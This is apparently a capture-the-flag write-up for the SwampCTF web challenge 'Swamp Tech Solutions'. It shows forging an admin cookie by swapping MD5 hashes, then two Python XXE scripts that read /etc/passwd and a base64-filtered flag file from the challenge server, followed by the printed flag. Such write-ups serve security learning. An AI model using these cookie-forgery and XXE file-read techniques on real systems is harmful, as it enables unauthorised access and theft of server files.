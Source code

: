 # Swamp Tech Solutions

## Approach

### Explore

An admin page `/adminpage.php` is found in the `robots.txt` file; guest credentials `guest:iambutalowlyguest` are found in the page source.

Login with the credentials, and find cookie `user=084e0343a0486ff05530df6c705c8bb4`, which is the MD5 hash of `guest`. We can change it to `21232f297a57a5a743894a0e4a801fc3`, which is the MD5 hash of `admin`, to get admin privileges.

In the admin page, there's a hidden form `xmlForm`, which posts some XML data to `/process.php`.

### Exploit

Let's try XXE:

```python
import requests

url = "http://chals.swampctf.com:40043/process.php"

xml = """
<!DOCTYPE root [
    <!ENTITY fileContents SYSTEM "file:///etc/passwd">
]>
<root>
<name>&fileContents;</name>
<email>1</email>
</root>
"""
resp = requests.post(url, data={"submitdata": xml})

print(resp.text)
```

It works! However, when I try to access `/var/www/html/flag.txt`, the server raises an error (not sure for the reason here). Then I tried `php://`:

```python
import requests

url = "http://chals.swampctf.com:40043/process.php"

xml = """
<!DOCTYPE root [
<!ENTITY fileContents SYSTEM "php://filter/read=convert.base64-encode/resource=flag.txt">
]>
<root>
<name>&fileContents;</name>
<email>1</email>
</root>
"""

resp = requests.post(url, data={"submitdata": xml})

print(resp.text)

# <h3>Thank you for actually doing your work, c3dhbXBDVEZ7VzByazFOZ19DSDQxTDVfPHI+X0Z1Tn0K. You're safe for now...</h3>
# swampCTF{W0rk1Ng_CH41L5_<r>_FuN}
```

We get the Base64 encoded flag ~ \o/

